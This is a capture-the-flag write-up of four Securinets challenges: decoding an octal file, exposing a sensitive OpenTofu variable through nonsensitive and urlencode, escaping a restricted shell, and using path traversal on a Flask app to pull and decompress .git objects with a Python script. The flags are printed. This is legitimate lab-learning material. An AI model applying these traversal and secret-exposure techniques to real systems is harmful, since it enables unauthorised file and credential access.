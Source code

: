 # Perms
This task is an easy one being solved by 22 teams. We were provided with a `challenge.txt` file containing linux permissions on each line.
With no description or hints provided with the task , i considered calculating permissions using an online calculator. [Link](https://nettools.club/chmod_calc)

Then, I used [Cyberchef](https://gchq.github.io/CyberChef/) with the `from octal` function to decrypt the message and get the flag.


# Openheimer
Task description : terraform's good, but have you tried opentofu?
We were provided with a netcat to interact with the server , which had an OpenTofu console running, along with a main.tf file.

![image](https://github.com/Garroura/CyberTEK/assets/164345052/f0d50c05-3a50-498f-a305-180c316a8e44)

This task was an opportunity to learn about terraform and opentofu, a free terraform fork. [OpenTofu](https://opentofu.org)
With the console running, I attempted various console commands using the documentation . [Doc](https://opentofu.org/docs/cli/commands/console/)
![image](https://github.com/Garroura/CyberTEK/assets/164345052/b04d894e-7137-4ada-af83-370ab58428d9)

To print the value of our variable named `SECRET` , we can use `var.SECRET` but is says `(sensitive value)` which is obvious because `sensitive` is set to `True`.
So we need to baypass this and print the value. 
Going through the terraform commands [link](https://developer.hashicorp.com/terraform/language/functions/nonsensitive) we found that the `nonsensitive` command takes a sensitive value and returns a copy of that value with the sensitive marking removed, thereby exposing the sensitive value.

![image](https://github.com/Garroura/CyberTEK/assets/164345052/f5a1d4eb-2054-4fe8-a0ec-e542a23ec918)


As we can see it is refusing to print the value in plaintext so we will try weak encoding functions starting with `base64encode` .
![image](https://github.com/Garroura/CyberTEK/assets/164345052/c16c0ec1-c480-4987-9d00-b6fa52b0851a)

We can see here thas he is blacklisting some functions so we will try different encoding techniques. As we go through , the `urlencode` function is printing something.
![image](https://github.com/Garroura/CyberTEK/assets/164345052/11087099-314e-4f3c-b2bc-6bb5310d89a3)

Using the urldecode function  in Cyberchef we get our flag in ascii .

`Securinets{oP3N7OfU_I5_4w35Om3_8U7_83c4R3FuL_WH3n_WORkin9_Wi7h_53Cr3Ts}`

# bolbok

Task description : Bolbok is scared of the arcane and has hidden his secret in this restricted shell.
Using the netcat to connect to the server , we have a shell but we can only use some commands. I used the Offsec Handbook, it helps a lot [Offsec](https://0xffsec.com/handbook/shells/restricted-shells/)
To see writable variables i used `export -p`. 
![image](https://github.com/Garroura/CyberTEK/assets/164345052/5ead06c3-2c0b-42be-9246-e45173fba38d)

As we can see the commands we can execute are stored in /usr/bolbok/cmds 

I used `echo /usr/bolbok/cmds/*` to list the directories in the file.

![image](https://github.com/Garroura/CyberTEK/assets/164345052/c670dc26-3286-4384-b9dd-bddd9186413a)

Since we can execute the `ls` command , we can use -l to show all details about the files,  -a to print all hidden files and directories and -R for recursive mode , to list all directrories starting with / ( `ls -laR /`)

Exploring the listed directories we can find a hidden file named .flag in `/usr/share/misc/bolbok/directorysecrets/youwillneverfindthis`

![image](https://github.com/Garroura/CyberTEK/assets/164345052/e791a61a-c182-4254-a529-e927ca7e8f65)

Now , knowing the directory and the flag format we can use `grep -r "Securi" /usr/share/misc/bolbok/secrets/youwillneverfindthis` 

![image](https://github.com/Garroura/CyberTEK/assets/164345052/62d58771-afb8-4d0b-b217-367981c982e9)

`Securinets{wH47_W45_7H47_3x4C7LY?4n_R845h_j41l??_0r_ls_4nd_grep_L3550n}`

# Ekko 
Task description : ls & cat made easy.

We were provided with a web page displaying its source code written in Flask and a dockerfile.

![image](https://github.com/Garroura/CyberTEK/assets/164345052/aec601f1-47d7-4f02-af0d-c97d20afd4b0)

![image](https://github.com/Garroura/CyberTEK/assets/164345052/c380ed98-7b96-4919-9e7c-cdac11895bb6)


Going through the code , we see that we can use the commands `ls` and `cat` with `q` as a query parameter. 
Looking at the docker file , we knew that there is a `.git` file in the app directory so we try to acces it using  `https://ekko.securinets-tekup.tech/ls?q=../app/.git`.

![image](https://github.com/Garroura/CyberTEK/assets/164345052/43012f69-e16d-4894-a58f-f582ea94dd63)


We tried to go through each file and look for sensitive information , so i found this using `https://ekko.securinets-tekup.tech/cat?q=../app/.git/logs/HEAD`

![image](https://github.com/Garroura/CyberTEK/assets/164345052/60c8fbaf-6167-45ae-8be9-c4137dc2f6b8)


The commit history and their hashes revealed that the user added a file named flag.txt to the git, then deleted it. To recover this, we needed to go back to that commit.

Going through the git [docs](https://git-scm.com/book/fr/v2/Les-tripes-de-Git-Les-objets-de-Git)  and doing some researchs , we found that the git commits are stored in the `/.git/objetcs` directory using the commit hash (This is how Git initially stores content - one file per content, named after the SHA-1 checksum of the content and its header. The subdirectory is named after the first 2 characters of the fingerprint and the file after the remaining 38 characters). I tried the hash of the commit containing the flag.txt using `/cat?q=../app/.git/objects/c3/af58e5721c2dbd456ddef869a6a95d0eac473f`
It shows non printable caracters and some encoded strings.

![image](https://github.com/Garroura/CyberTEK/assets/164345052/a1693c54-37b1-430a-a773-4105f2db1587)

Using the same git documentation , i looked for how blobs are encoded in git and i found that it is `zlib` compressed.
We wrote a solver to get all the files in /.git/objects and decompress the content of each file in order to get the flag .
```
import os
import requests, re

url = "https://ekko.securinets-tekup.tech/"

get_objects = requests.get(url + "ls?q=../app/.git/objects/" )
obj = re.findall('\w+', get_objects.text)

destination_folder = "Files"
if get_objects.status_code == 200:
    for i in obj:
        com = requests.get(url + "ls?q=../app/.git/objects/" + i + '/')
        get_com = re.findall('\w+',com.text)
        for commut in get_com:
            blob = requests.get(url + "cat?q=../app/.git/objects/" + i + '/' + commut)
            with open(commut + ".zlib", 'wb') as f:
                f.write(blob.content)
            print("Downloaded successfully:", commut + ".zlib")
        else:
            print("Failed to download:", blob.status_code)
```

````
import os
import zlib
folder_path = '`File'

# Iterate through all files in the folder
for filename in os.listdir(folder_path):
    file_path = os.path.join(folder_path, filename)
    try : 
        with open(file_path,'rb') as f:
            ct= f.read()
        a = (zlib.decompress(ct))
        print(f" : {file_path} :  {a}")
    except : continue
````

`Securinets{y43h_n0w_U_Kn0W_Wh4T_15_917_bL0bS}`

